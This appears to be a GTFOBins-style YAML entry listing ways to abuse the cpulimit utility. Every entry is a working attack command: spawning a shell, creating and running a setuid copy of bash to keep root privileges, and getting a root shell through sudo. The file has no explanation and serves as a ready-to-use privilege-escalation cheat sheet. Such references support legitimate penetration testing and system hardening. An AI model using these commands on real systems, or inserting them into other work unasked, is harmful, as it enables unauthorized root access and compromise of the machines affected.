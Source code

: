 ```yaml
---
functions:
  shell:
    - code: cpulimit -l 100 -f /bin/sh
  suid:
  - code: cpulimit -l 100 -f cp /bin/bash .
  - code: cpulimit -l 100 -f chmod +s bash
  - code: /bash -p
  sudo:
    - code: sudo cpulimit -l 100 -f /bin/sh
---
```

 
